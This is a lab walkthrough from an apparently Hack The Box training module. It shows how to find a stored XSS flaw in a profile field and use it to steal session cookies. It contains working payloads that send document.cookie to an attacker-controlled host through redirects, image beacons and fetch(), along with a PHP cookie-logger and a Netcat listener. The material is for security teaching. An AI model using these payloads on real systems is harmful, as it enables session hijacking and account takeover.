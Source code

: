 # Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) vulnerabilities are among the most common web application vulnerabilities. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser and result in complete web application compromise if chained together with other vulnerabilities. In this section, though, we will focus on exploiting Cross-Site Scripting (XSS) vulnerabilities to obtain valid session identifiers (such as session cookies).

If you want to dive deeper into Cross-Site Scripting (XSS) vulnerabilities, we suggest you study our [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/details/103) module.

For a Cross-Site Scripting (XSS) attack to result in session cookie leakage, the following requirements must be fulfilled:

* Session cookies should be carried in all HTTP requests
* Session cookies should be accessible by JavaScript code (the HTTPOnly attribute should be missing)

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`xss.htb.net`) to access the application.

Navigate to `http://xss.htb.net` and log in to the application using the credentials below:

* Email: crazygorilla983
* Password: pisces

This is an account that we created to look at the application's functionality. It looks like we can edit the input fields to update our email, phone number, and country.

<figure><img src="../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

In such cases, it is best to use payloads with event handlers like `onload` or `onerror` since they fire up automatically and also prove the highest impact on stored XSS cases. Of course, if they're blocked, you'll have to use something else like `onmouseover`.

In one field, let us specify the following payload:

```javascript
"><img src=x onerror=prompt(document.domain)>
```

We are using `document.domain` to ensure that JavaScript is being executed on the actual domain and not in a sandboxed environment. JavaScript being executed in a sandboxed environment prevents client-side attacks. It should be noted that sandbox escapes exist but are outside the scope of this module.

In the remaining two fields, let us specify the following two payloads.

```javascript
"><img src=x onerror=confirm(1)>
```

```javascript
"><img src=x onerror=alert(1)>
```

We will need to update the profile by pressing "Save" to submit our payloads.

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

The profile was updated successfully. We notice no payload being triggered, though! Often, the payload code is not going to be called/executed until another application functionality triggers it. Let us go to "Share," as it is the only other functionality we have, to see if any of the submitted payloads are retrieved in there. This functionality returns a publicly accessible profile. Identifying a stored XSS vulnerability in such a functionality would be ideal from an attacker's perspective.

That is indeed the case! The payload specified in the _Country_ field fired!

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Let us now check if _HTTPOnly_ is "off" using Web Developer Tools.

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

_HTTPOnly_ is off!

***

## Obtaining session cookies through XSS

We identified that we could create and share publicly accessible profiles that contain our specified XSS payloads.

Let us create a cookie-logging script (save it as `log.php`) to practice obtaining a victim's session cookie through sharing a vulnerable to stored XSS public profile. The below PHP script can be hosted on a VPS or your attacking machine (depending on egress restrictions).

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

This script waits for anyone to request `?c=+document.cookie`, and it will then parse the included cookie.

The cookie-logging script can be run as follows. `TUN Adapter IP` is the `tun` interface's IP of either Pwnbox or your own VM.

```shell-session
$ php -S <VPN/TUN Adapter IP>:8000
[Mon Mar  7 10:54:04 2022] PHP 7.4.21 Development Server (http://<VPN/TUN Adapter IP>:8000) started
```

Before we simulate the attack, let us restore Ela Stienen's original Email and Telephone (since we found no XSS in these fields and also want the profile to look legitimate). Now, let us place the below payload in the _Country_ field. There are no specific requirements for the payload; we just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

Payload:

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

**Note**: If you're doing testing in the real world, try using something like [XSSHunter (now deprecated)](https://xsshunter.com/), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Project Interactsh](https://app.interactsh.com/). A default PHP Server or Netcat may not send data in the correct form when the target web application utilizes HTTPS.

A sample HTTPS>HTTPS payload example can be found below:

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

**Simulate the victim**

Open a `New Private Window`, navigate to `http://xss.htb.net` and log in to the application using the credentials below:

* Email: smallfrog576
* Password: guitars

This account will play the role of the victim!

Now, navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com`. This is the attacker-crafted public profile that hosts our cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).

You should now see the below in your attacking machine.

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Terminate the PHP server with Ctrl+c, and the victim's cookie will reside inside `cookieLog.txt`

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

You can now use this stolen cookie to hijack the victim's session!

***

## Obtaining session cookies via XSS (Netcat edition)

Instead of a cookie-logging script, we could have also used the venerable Netcat tool.

Let us try that as well for completeness's sake.

Before we simulate the attack, let us place the below payload in the _Country_ field of Ela Stienen's profile and click "Save." There are no specific requirements for the payload. We just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Let us also instruct Netcat to listen on port 8000 as follows.

```shell-session
$ nc -nlvp 8000
listening on [any] 8000 ...
```

Open a `New Private Window` and navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com`, simulating what the victim would do. We remind you that the above is an attacker-controlled public profile hosting a cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).

By the time you hold your mouse over "test," you should now see the below in your attacking machine.

<figure><img src="../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Please note that the cookie is a Base64 value because we used the `btoa()` function, which will base64 encode the cookie's value. We can decode it using `atob("b64_string")` in the Dev Console of Web Developer Tools, as follows.

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

You can now use this stolen cookie to hijack the victim's session!

We don't necessarily have to use the `window.location()` object that causes victims to get redirected. We can use `fetch()`, which can fetch data (cookies) and send it to our server without any redirects. This is a stealthier way.

Find an example of such a payload below.

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

Give it a try...

It is about time we jump to another session attack called Cross-Site Request Forgery (CSRF or XSRF).
